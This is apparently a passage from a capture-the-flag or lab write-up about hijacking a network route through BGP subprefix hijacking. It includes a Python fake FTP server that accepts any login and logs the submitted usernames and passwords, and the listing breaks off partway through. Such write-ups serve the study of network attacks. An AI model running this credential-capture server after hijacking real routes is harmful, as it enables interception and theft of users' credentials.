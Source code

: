 ![7](./carrier/7.png)

Here we see a connection from `10.78.10.2` to `10.120.15.10`, which means the connection is comming from `eth1`. What we have done so far is hijack the route for the `10.120.15.0/28` network using subprefix hijacking. This allows for our captured ASN to own this subnet of the greater `/24` network. Now we need to capture the credentials a simple ftp server will do the trick:

```python
import os
import time
import random
import socket
import string
import logging
import threading

PORT = 21
HOST = '10.120.15.10'
LOG_FILE = '{0}.txt'.format(''.join(random.choice(string.ascii_lowercase) for i in range(5)))

class Thread(threading.Thread):

  def __init__(self, conn, addr):
    self.s = conn
    logging.info('connection from {0}'.format(addr))
    threading.Thread.__init__(self)

  def run(self):
    self.s.send('220 OK.\r\n'.encode())
    while True:
      cmd = self.s.recv(256)
      if not cmd:
        break
      else:
        logging.info('Recieved: {0}'.format(cmd))
        try:
          c = cmd[:4].strip().upper().decode()
          if c == 'USER':
            self.s.send('331\r\n'.encode())
          elif c == 'PASS':
            self.s.send('230\r\n'.encode())
          else:
            return
        except Exception as e:
          logging.debug(e)
          self.s.send('500\r\n'.encode())

class Server(threading.Thread):
  def __init__(self):
    self.s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    self.s.bind((HOST, PORT))
    threading.Thread.__init__(self)

  def run(self):
    self.s.listen(5)
    logging.info('listening on {0}'.format(self.s.getsockname()))
```